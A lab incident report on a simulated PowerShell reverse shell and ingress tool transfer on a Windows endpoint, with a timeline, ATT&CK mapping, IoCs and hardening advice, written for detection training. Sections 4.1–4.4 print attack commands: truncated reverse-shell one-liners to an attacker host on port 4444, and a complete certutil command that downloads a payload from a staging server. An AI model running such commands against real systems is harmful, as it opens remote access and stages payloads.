



# Incident Report: PowerShell Reverse Shell and Ingress Tool Transfer

**Lab Simulation | Wazuh SIEM + Sysmon + BlueForge Detection Engine**

Analyst: Ravi Prajapati\
Incident ID: INC-2026-0907-01\
Date of Incident: 7 September 2026\
Repository: https://github.com/Ravi-O3/Blueforge

---

## 1. Executive Summary
On 7th September 2026 at 02:04:13 UTC (6th September, 22:04 EDT) a simulated intrusion was detected on an endpoint named `Fable` (WIN-2N9OV016O6B) via `Wazuh`. The adversary host was 192.168.64.5.

The first attempt to establish a PowerShell reverse shell was blocked in memory by the Windows Antimalware Scan Interface (AMSI). To simulate a weakened endpoint, Windows Defender Real-Time Protection was then intentionally disabled in this lab, replicating a realistic scenario where protection is turned off during IT maintenance or by a user installing untrusted software. On the second attempt a Base64-encoded PowerShell command executed successfully and opened an outbound TCP session to the C2 server 192.168.64.5 on port 4444.

Through that session the attacker executed `whoami /all` for account and privilege discovery, then used `certutil.exe` to download a file `payload.txt` from 192.168.64.5 on TCP port 8000, writing it to the user profile directory. `Wazuh` raised alerts across the chain and the BlueForge Detection Engine parsed 478 endpoint events to isolate the true attack chain from benign activity and map it to the MITRE ATT&CK framework.

The device was contained in an isolated lab. The C2 process was terminated during remediation and the downloaded file was removed from the victim machine. Primary recommendations are egress filtering on non-standard ports, restricting PowerShell via AppLocker or Constrained Language Mode, and enabling Defender Tamper Protection.

***Scope note:*** Initial access was not exploited. Commands were executed directly on the endpoint to emulate post-exploitation behaviour. The objective of this exercise was detection, investigation and response.
## 2. Incident Overview Metadata:
| Field | Details |
| --- | --- |
| Incident ID | INC-2026-0907-01 |
| Detection Source | Wazuh SIEM + Sysmon + BlueForge Detection Engine |
| Affected Endpoint | Fable (WIN-2N9OV016O6B) |
| Attacking IP | 192.168.64.5 (Kali Linux) |
| Compromised Account | WIN-2N9OV016O6B\Fable |
| Severity | High |
| Simulation Note | Initial access simulated; Real-Time Protection disabled after first block to observe the full chain |
| Status | Contained/Closed (Lab Simulation) |
| Lead Analyst | Ravi |

## 3. Timeline of Events:
| Time (UTC) | Time (ET, UTC-4) | Event | Evidence Source | Rule ID | MITRE ATT&CK |
| --- | --- | --- | --- | --- | --- |
| 01:41:33 | 21:41:33 | Benign administrative whoami execution (parent: WindowsTerminal.exe) | Sysmon EID 1 | 100203 | N/A (benign) |
| 02:04:13 | 22:04:13 | Unencoded TCPClient reverse shell blocked in memory by AMSI (true positive, prevented) | Defender Operational EID 1116/1117 | N/A (Defender EID 1116/1117) | T1059.001 (Prevented) |
| 02:04:13 to 02:09:01 | 22:04:13 to 22:09:01 | Defender Real-Time Protection disabled (lab-simulated tampering); exact event time not captured | Defender Operational EID 5001/5007 | N/A (not captured) | T1562.001 |
| 02:04:55 | 22:04:55 | PowerShell process spawned with suspicious flags (-nop -w hidden) | Sysmon EID 1 | 92027 | T1059.001, T1564.003 |
| 02:09:01 | 22:09:01 | Base64-encoded PowerShell executed (-EncodedCommand) | Sysmon EID 1 | 92057 | T1059.001, T1027 |
| 02:09:01 | 22:09:01 | Outbound TCP session established to 192.168.64.5:4444 | Sysmon EID 3 | N/A (level 0, no alert generated) | T1095, T1571 |
| 02:10:51 | 22:10:51 | whoami /all executed for discovery (child of PID 7900) | Sysmon EID 1 | 100203 | T1033 |
| 02:15:45 | 22:15:45 | certutil.exe executed to download a remote file | Sysmon EID 1 | 100202 | T1105 |
| 02:15:45 | 22:15:45 | Outbound HTTP connection to attacker staging server on port 8000 | Sysmon EID 3 | 100202 | T1105 |
| 02:15:45 | 22:15:45 | File payload.txt written to disk in the user profile directory | Sysmon EID 11 | 100202 | T1105 |

*Note: UTC timestamps fall on 7th September 2026; the corresponding local times fall on the evening of 6th September 2026 (EDT, UTC-4).*

## 4. Technical Analysis
### 4.1 Initial execution attempt and AMSI block. 
 The incident started when an attacker attempted to execute a reverse shell in PowerShell. The attacker attempted to connect the endpoint to a Command and Control (C2) server at IP address 192.168.64.5 on TCP port 4444 with the following command:
  ```Powershell
  powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.64.5',4444);$stream = $client.GetStream();..."
  ```
  However, the Antimalware Scan Interface (AMSI) submitted the script content to Windows Defender, which matched it against the signature of the Nishang TCPClient shell and blocked execution in memory (Windows Defender ID: 1116 detection, 1117 action taken).
### 4.2 Protection disabled and successful Command and Control (C2) connection. 
 After the first attempt was detected (Defender ID 1116) and blocked (Defender ID 1117), Windows Defender Real-Time Protection was intentionally disabled on the endpoint. This was a deliberate lab decision to simulate a realistic weakened-endpoint condition, such as protection disabled during IT maintenance or by a user installing untrusted software. Windows records this change in the Defender Operational log as EID 5001 (real-time protection disabled) and EID 5007 (configuration changed), and it maps to MITRE T1562.001. The exact event time was not captured during this exercise.

 The attacker then executed the payload as a Base64-encoded command:
 ```PowerShell
powershell.exe -nop -w hidden -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAA... 
```
 Encoding does not defeat AMSI, which scans script content after PowerShell decodes it. Its purpose here was to avoid command-line parsing issues and quote collisions, and as a side effect it reduces the value of command-line logging alone as a detection source, since the readable payload never appears in the process arguments.

The execution established an outbound TCP connection to 192.168.64.5 on port 4444. Process creation was captured by Sysmon EID 1 and alerted in `Wazuh`. The network connection itself was recorded by Sysmon EID 3 but generated no `Wazuh` alert, as default rules classify these events at level 0; the connection was surfaced by the BlueForge Detection Engine. 
### 4.3 Reconnaissance and privilege discovery. 
Following the establishment of a C2 session, the attacker executed `whoami /all` to inspect the compromised user's access token. The command revealed the account's Security ID (SID), active group memberships and assigned privileges. 
This activity triggered alerts in the SIEM Wazuh with the rule ID 100203 (MITRE T1033). The process whoami.exe (PID 9252) was spawned as a child process of the hidden powershell.exe session (PID 7900).
### 4.4 Ingress tool transfer via certutil.exe.
The attacker then proceeded to download a file onto the victim machine via `certutil.exe`, a signed Microsoft binary, from the IP Address 192.168.64.5 on TCP port 8000. 
```PowerShell
certutil.exe -urlcache -split -f http://192.168.64.5:8000/payload.txt C:\Users\Fable\payload.txt
```
 The activity was detected by the Wazuh (Rule ID 100202/Sysmon EID 1) while Sysmon EID 11 confirmed the payload.txt file creation on the disk. 

 ## 5. MITRE ATT&CK Mapping

 | Tactic | Technique Name | Technique ID | Evidence | Source ID |
 | --- | --- | --- | --- | --- |
 | Defense Evasion | Impair Defenses: Disable or Modify Tools | T1562.001 | Real-Time Protection disabled (lab-simulated) | Defender EID 5001/5007 |
 | Execution | Command and Scripting Interpreter: PowerShell | T1059.001 | Encoded command via powershell.exe | Sysmon EID 1 |
 | Defense Evasion | Obfuscated Files or Information | T1027 | Base64 -EncodedCommand payload | Sysmon EID 1 |
 | Defense Evasion | Hide Artifacts: Hidden Window | T1564.003 | -w hidden execution flag | Sysmon EID 1 |
 | Command and Control | Non-Application Layer Protocol | T1095 | Raw TCP session to 192.168.64.5:4444 | Sysmon EID 3 |
 | Command and Control | Non-Standard Port | T1571 | Outbound C2 traffic on port 4444 | Sysmon EID 3 |
 | Discovery | System Owner/User Discovery | T1033 | whoami /all | Sysmon EID 1 |
 | Command and Control | Ingress Tool Transfer | T1105 | certutil.exe download of payload.txt | Sysmon EID 1, 3, 11 |

 ## 6. Triage Notes: Benign Activity and Prevented Attempts

### 6.1 Pre-incident administrative whoami (False Positive):
Prior to the incident one `whoami` command was executed using `Windows Terminal` for administrative verification, triggering rule 100203. 

- ***Investigation:*** Inspection of Sysmon EID 1 showed the parent image was `WindowsTerminal.exe`, consistent with a user typing the command in an interactive session. 
- ***Conclusion:*** Benign administrative activity and a false positive. It is distinguishable from the later execution at 02:10:51, where the same command was spawned as a child of a hidden `powershell.exe` process (PID 7900) rather than from an interactive terminal. Parent process lineage was the deciding factor in separating the two. 
### 6.2 Initial AMSI block (True Positive, Prevented):
The first reverse shell attempt used an unencoded PowerShell command targeting 192.168.64.5 on port 4444. AMSI submitted the script content to Windows Defender, which matched a known Nishang TCPClient signature and blocked execution (Windows Defender ID 1116 and 1117).
 
 - ***Conclusion:*** This was a true positive that was successfully prevented, not a false positive. No C2 foothold was established at this timestamp. It is documented here to distinguish a prevented attempt from the successful execution at 02:09:01, and because a blocked attack is still evidence of adversary activity that warrants investigation. 

 ## 7. Indicators of Compromise (IoCs)
 | Type | Indicator | Context/Notes |
 | --- | --- | --- |
 | IP Address | 192.168.64.5 | C2 Server |
 | TCP Ports | Port 4444/8000 | C2 and Staging server |
 | Download URL | http://192.168.64.5:8000/payload.txt | certutil used to download payload.txt |
 | File Creation | C:\Users\Fable\payload.txt | The file was created in the user profile directory |
 | File Hash | Not captured | SHA256 was not recorded before deletion; see Lessons Learned |
 | Process | powershell.exe (PID 7900) | Hidden C2 session; parent of whoami.exe (PID 9252) |

## 8. Impact Assessment
- ***Lab Environment:*** Since this lab environment was isolated and did not have any sensitive data, the impact was minimal. 
- ***Enterprise Environment:*** In an enterprise environment, this intrusion could have led to further malicious activity such as data exfiltration, ransomware deployment, or lateral movement to other systems. AMSI blocked the initial attempt, but once Real-Time Protection was disabled the attack chain completed without preventive interruption. Detection was achieved post-execution through `Wazuh` and BlueForge rather than through prevention, which is a realistic outcome for an endpoint with weakened protection and underlines why detection coverage cannot depend on endpoint prevention alone. 

## 9. Root Cause Analysis 
The attack chain completed because of three conditions on the endpoint:

1. ***Endpoint protection was not enforced.*** Real-Time Protection was disabled (lab-simulated) and no Tamper Protection prevented the change. This single condition allowed a payload that AMSI had already blocked once to execute successfully.
2. ***PowerShell ran unrestricted.*** No AppLocker policy or Constrained Language Mode limited script execution, and Script Block Logging was not enabled, so the decoded content of the encoded command was never captured.
3. ***No egress filtering.*** Outbound traffic to non-standard ports (4444 and 8000) was permitted, allowing both the C2 channel and the file download to succeed.

Initial access was simulated in this exercise, so the original entry vector is out of scope for this analysis. 

## 10. Recommendations

- ***Immediate Actions:*** 
    1. Isolate the endpoint from the network to prevent further attacker interaction.
    2. Collect evidence before eradication: hash `payload.txt`, capture process details for PID 7900, and preserve the relevant Sysmon and Defender logs.
    3. Terminate the `powershell.exe` process (PID 7900) to sever the C2 channel. 
    4. Delete the downloaded file (`C:\Users\Fable\payload.txt`) from the disk.
    5. Reset the compromised account's (`Fable`) password.
    6. Block 192.168.64.5 at the perimeter firewall.
- ***Short Term Hardening:***
    1. Configure the firewall to block outbound traffic on non-standard ports, permitting only required destinations and protocols. 
    2. Restrict `PowerShell` using `AppLocker` or Constrained Language Mode. 
    3. Enable Defender Tamper Protection so Real-Time Protection cannot be disabled by a local user or process.
- ***Detection Engineering:***
    1. Deploy custom `Wazuh` rules for `Encoded Commands`, `certutil -urlcache`, and suspicious outbound connections on non-standard ports. 
    2. Raise the severity of Sysmon network connection events (EID 3) above level 0 so C2 traffic generates an alert rather than a silent log entry.  
    3. Enable PowerShell Script Block Logging (EID 4104), which records decoded script content and closes the visibility gap created by `-EncodedCommand`.
    4. Alert on Defender Operational EID 5001/5007 (Real-Time Protection disabled) and correlate with any process execution within the following 10 minutes for high-priority triage.

## 11. Lessons Learned
### What Worked
- AMSI blocked the first C2 attempt, confirming that signature-based in-memory scanning catches known tooling. 
- `Wazuh` alerted on the process execution chain through Sysmon EID 1 and the Defender events. 
- BlueForge parsed 478 events and surfaced the high-severity detections with full context. 
- Parent process lineage proved to be the decisive factor in separating benign administrative `whoami` from attacker discovery, since the command line alone was identical in both cases.
- BlueForge mapped the activity to the `MITRE ATT&CK Framework`.
### What to improve
- **Evidence Preservation:** The downloaded file was deleted during remediation without first capturing its SHA256 hash. In a real incident this removes a key IoC for threat intelligence and for hunting the same file across other endpoints. Hashing artifacts before eradication is now a fixed step in my response process.
- **Alert Fatigue:** Multiple duplicate alerts fired for the same activity, which would slow triage at scale.
- **SIEM Tuning:** Default `Wazuh` rules classify Sysmon network connection events (EID 3) at level 0, so the outbound C2 connection to port 4444 was logged but generated no alert. The connection was only surfaced by BlueForge. Without custom rules, a SIEM can hold the evidence of a C2 channel and still show the analyst nothing.
- **Detection Depended on Post-Execution Telemetry:** With Real-Time Protection disabled there was no preventive control left, so every detection in this incident occurred after the attacker action had already succeeded. 

## 12. Appendix A - Evidence Gallery
### A.1 Wazuh SIEM Alerts:
Real-time alerts triggered by the intrusion, capturing the blocked Nishang shell attempt, `whoami` discovery and the `certutil` download. 


### A.2 Attacker C2 Shell:
The adversary established an interactive PowerShell session on port 4444, executed `whoami` for account discovery and downloaded `payload.txt` using `certutil.exe`. 


### A.3 BlueForge Engine Detections:
Overview of all the detections from BlueForge Engine in real-time after filtering 478 raw endpoint events and flagging the high-severity detections and mapped to `MITRE ATT&CK Framework`.  

## 13. Appendix B - Lab Environment Specifications
- ***Hypervisor:*** UTM Virtualization on Apple Silicon (macOS)
- ***Target:*** Windows 11 Enterprise (ARM64), Sysmon 15.0, Wazuh Agent 4.17
- ***Attacker:*** Kali Linux 2024 (ARM64), Netcat, Python 3 HTTP Server
- ***SIEM:*** Ubuntu Server 24.04 LTS, Wazuh Manager 4.18, BlueForge Detection Engine (Python 3.12)
- ***Networking:*** Isolated Host-Only Virtual Switch, Subnet 192.168.64.0/24